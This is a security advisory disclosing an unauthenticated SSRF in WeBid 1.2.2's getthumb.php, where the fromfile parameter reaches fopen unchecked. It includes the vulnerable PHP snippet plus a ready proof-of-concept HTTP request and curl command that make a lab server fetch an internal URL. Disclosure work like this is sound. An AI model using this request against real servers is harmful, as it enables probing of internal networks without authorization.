

# SSRF vulnerability in `fopen` Function of `getthumb.php` File (WeBid 1.2.2 version)

## 0x01 Affected version

vendor: https://github.com/renlok/WeBid

version: <=1.2.2

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in getthumb.php file of WeBid allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `fromfile` parameter and no authorization required.

```php
elseif (!file_exists($_GET['fromfile']) && !fopen($_GET['fromfile'], 'r'))
{
	ErrorPNG($ERR_716);
	exit;
}
```

Because the `fromfile` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag HTTP/1.1
Host: 172.16.119.146
Connection: close
```

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k --location --request GET 'http://172.16.119.146:80/WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag' \
--header 'Connection: close' \
--header 'Host: 172.16.119.146' 
```



### 0x03 Acknowledgement

Ez Wang, Yf Gao, Zh Wang, Lj Wu, W Xie